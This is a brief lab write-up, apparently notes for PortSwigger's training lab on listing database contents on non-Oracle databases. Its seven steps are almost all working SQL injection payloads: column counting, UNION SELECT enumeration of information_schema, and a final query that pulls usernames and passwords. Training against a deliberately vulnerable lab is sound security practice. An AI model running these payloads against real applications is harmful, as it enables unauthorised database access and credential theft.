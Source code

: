 # SQL injection attack, listing the database contents on non-Oracle databases
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-non-oracle

Step - 1
-
`'`</br>
Error
Single Quotes

Step - 2
-
`'--`</br>
No MySQL

Step - 3
-
`' ORDER BY 3--`</br>
Error > 2 Column

Step - 4
-
`' UNION SELECT 'a','a'--`</br>
2 String Column

Step - 5
-
`' UNION SELECT 'a',table_name FROM information_schema.tables--`</br>
1. Table Name: users_losije

Step - 6
-
`' UNION SELECT 'a',column_name FROM information_schema.columns WHERE table_name='users_losije'--`</br>
1. Column Name: username_nlazuv and password_xcildc

Step - 7
-
`' UNION SELECT 'a',username_nlazuv || '~' || password_xcildc FROM users_losije--`</br>
